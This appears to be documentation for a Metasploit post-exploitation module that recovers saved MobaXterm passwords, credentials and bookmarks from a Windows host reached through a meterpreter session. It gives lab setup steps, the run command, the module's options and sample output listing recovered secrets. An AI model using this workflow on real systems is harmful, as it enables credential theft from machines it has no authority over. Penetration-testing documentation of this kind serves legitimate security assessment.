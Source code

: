 ## Vulnerable Application

  Any Windows host with a `meterpreter` session and MobaXterm v20.6+
  installed. The following passwords will be searched for and recovered:

### Installation Steps

  1. Download the latest installer of MobaXterm.
  2. Select default installation
  3. Open the software and click "Setting" in the toolbar, `General > MobaXterm password management > Master Password setting`
     complete password setting, add the test account password to the certificate.

## Verification Steps

  1. Get a `meterpreter` session on a Windows host.
  2. Do: ```run post/windows/gather/credentials/moba_xterm```
  3. If the system has registry keys for MobaXterm passwords they will be printed out.

## Options

### MASTER_PASSWORD

- If you know the password, you can skip decrypting the master password. If not, it will be decrypted automatically

### CONFIG_PATH

- Specifies the config file path for MobaXterm

## Scenarios

```

msf post(windows/gather/credentials/moba_xterm) > run
[*] Gathering MobaXterm session information from WIN-79MR8QJM50N
[!] Parsing is not supported: #84#9%C:\Users\FireEye\Desktop%0%#MobaFont%10%0%0%-1%15%236,236,236%30,30,30%180,180,192%0%-1%0%%xterm%-1%-1%_Std_Colors_0_%80%24
%0%1%-1%<none>%%0#0# #-1
[!] Parsing is not supported: #131#8%0%1009600%3%0%0%1%2%COM2  (ͨ˿ (COM2))#MobaFont%10%0%0%-1%15%236,236,236%30,30,30%180,180,192%0%-1%0%%xterm%-1%-1%_Std_Color
s_0_%80%24%0%1%-1%<none>%%0#0# #-1
[!] Parsing is not supported: #97#10%0%#MobaFont%10%0%0%-1%15%236,236,236%30,30,30%180,180,192%0%-1%0%%xterm%-1%-1%_Std_Colors_0_%80%24%0%1%-1%<none>%%0#0# #-1
[!] Parsing is not supported: #88#3%%0%-1%0%0%0%localhost%7100%1%0%1%0%657%336%0%0#MobaFont%10%0%0%-1%15%236,236,236%30,30,30%180,180,192%0%-1%0%%xterm%-1%-1%_
Std_Colors_0_%80%24%0%1%-1%<none>%%0#0# #-1
[+] MobaXterm Password
==================       
                                                                                                                                                               
Protocol  Hostname    Username  Password                                                                                                                       
--------  --------    --------  --------                                                                                                                       
          mobaserver  mobauser  278804moba14071pass317387                                                                                                      
                                                                                                                                                               
[+] MobaXterm Credentials
=====================

CredentialsName  Username  Password
---------------  --------  --------
ftp              1212
ssh              root      admin

[+] MobaXterm Bookmarks
===================

BookmarksName  Protocol  ServerHost           Port  Credentials or Passwords
-------------  --------  ----------           ----  ------------------------
ftp            ftp       ftp.asdas.com        21    asdas
msf            telnet    msf                  23    msf
rdp (rdp)      rdp       rdp                  3389  rdp
rsh            rsh       rdp.baid.com         rsh   #MobaFont
sftp           sftp      sftp.asdasd.com      22    asdasd
ssh            ssh       127.0.0.1            22    [ssh]
telnet_test    telnet    telnet.kali-team.cn  23    admin
vnc            vnc       vnc.basbas.com       5900  -1


```
